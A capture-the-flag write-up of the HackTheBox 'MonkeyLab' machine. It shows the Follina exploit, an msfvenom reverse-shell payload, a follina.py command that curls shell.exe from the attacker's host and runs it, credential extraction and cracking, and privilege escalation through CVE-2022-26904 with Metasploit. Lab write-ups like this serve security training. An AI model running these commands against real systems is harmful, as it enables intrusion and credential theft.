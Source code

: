 ```yaml
---
layout: posts
title: "HTB Business - MonkeyLab"
tags: writeup hackthebox ctf
categories: HackTheBox
---
```


This is an "easy" machine from [HackTheBox Business CTF](https://www.hackthebox.com/events/htb-business-ctf-2022).

Enumeration:

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/1.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/2.png)
{: refdef}

<p style='text-align: justify;'>
So looking at the port 8080 we can see a page that is looking for documents to scan. This gave us a first impression that the windows machine could be vulnerable to a recent vulnerability named follina. We are going to use the following script to get a foothold: https://github.com/chvancooten/follina.py
<br>
Clone the repo, go inside it, create a reverse shell and place it under the www directory within the script folder:
</p>

```msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.83 lport=445 -f exe -o shell.exe```

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/3.png)
{: refdef}

<p style='text-align: justify;'>
Ignore the other binaries, they are there because of enumeration inside the machine.
<br>
Set up a listener on port 445 and execute the following command on the script root folder:
</p>

```python follina.py -t docx -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c mkdir C:\temp && curl http://10.10.14.83:8080/shell.exe -o C:\temp\shell.exe && C:\temp\shell.exe'" -u 10.10.14.83 -P 8080```


<p style='text-align: justify;'>
This script will create a docx document that we are going to upload to the service listening on port 8080:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/4.png)
{: refdef}

<p style='text-align: justify;'>
After a minute or two we get a callback to our server running on port 8080 to retrieve the shell executable and a few seconds later we get the callback on our listener on port 445:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/5.png)
{: refdef}

<p style='text-align: justify;'>
So after enumerating for a while and running winPeas.exe i found two interesting things. First we got the credentials for the current user (they are at the AutoLogon registry):
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/6.png)
{: refdef}

<p style='text-align: justify;'>
Next, i discover that the current user has wsl.exe installed on their session. Veryfing his privileges, we can see that he can use every command as sudo:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/7.png)
{: refdef}

Knowing this, we can extract shadow and passwd files:

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/8.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/9.png)
{: refdef}

<p style='text-align: justify;'>
We crack the files using unshadow (to create the john hash) and john. We obtain the following credentials:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/10.png)
{: refdef}

<p style='text-align: justify;'>
You can verify that the credentials are valid (on the windows machine) using a lot of techiniques but since i wanted to see what the user could access, i used runasCS.exe to get a shell as the Infinity user:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/11.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/12.png)
{: refdef}

<p style='text-align: justify;'>
Since we have two valid users, we can use CVE-2022-26904 to escalate privileges. Metasploit has a module to explore this. You need credentials of one user (Infinity) and a meterpreter session from another user (Anomaly):
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/13.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/14.png)
{: refdef}

We are now ready to use the msfconsole module:

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/15.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/16.png)
{: refdef}

